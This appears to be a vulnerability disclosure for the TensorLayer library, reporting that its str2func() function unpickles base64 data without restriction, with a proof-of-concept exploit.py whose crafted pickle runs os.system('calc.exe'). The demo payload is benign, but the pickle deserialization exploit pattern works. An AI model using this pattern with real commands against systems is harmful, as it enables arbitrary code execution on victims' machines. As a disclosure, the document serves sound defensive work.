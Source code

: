 ## :writing_hand: Description

`TensorLayer` is a novel TensorFlow-based deep learning and reinforcement learning library designed for researchers and engineers. It provides an extensive collection of customizable neural layers to build advanced AI models quickly. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`str2func()` function unpickles data encoded in base64. Lack of restriction allowes unpickling of malicious data.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install tensorflow
pip install tensorlayer
```

#### Run exploit.py
```python
import pickle
import os
from base64 import b64encode
from tensorlayer.files.utils import str2func

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

str2func(b64encode(pickle.dumps(EvilPickle())))
```
